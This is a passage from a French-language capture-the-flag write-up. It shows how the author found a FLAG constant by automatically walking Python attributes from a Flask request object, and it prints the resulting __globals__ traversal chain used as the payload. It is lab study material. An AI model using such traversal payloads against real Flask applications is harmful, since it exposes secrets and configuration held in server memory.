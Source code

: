 
Après de longues heures de recherches et d'essais, je tombe sur un writeup plutôt interessant: https://ctftime.org/writeup/10851

Au lieu de chercher à la main comment remonter dans le context global afin de trouver la constante FLAG, j'ai utlisé le script de parcours automatique récupéré dans le writeup.


```python

@app.route('/search')
def search_flag():
    for path, obj in search(request, 10):
        if str(obj) == FLAG:
            return path
```

Cette route va me permettre de parcourir tous les paths possibles, jusqu'à tomber sur un objet dont la valeur est égale a notre constante FLAG

```sh
curl  http://127.0.0.1/search
```

Au bout de quelques minutes, la page me retourne une réponse !

```sh
obj.__class__._load_form_data.__globals__['json'].JSONEncoder.default.__globals__['current_app'].view_functions['index'].__globals__['FLAG']
```


(obj correspond à request)

je construis donc mon payload afin de correspondre à ce path, ce qui me permet de récupérer le flag

## Conclusion

La partie la plus longue du challenge était finalement de simuler un serveur minecraft et de générer les payloads

Ayant accès au code source, nous pouvons ensuite 'simplement' retrouver le path vers la constante FLAG via un parcours automatique

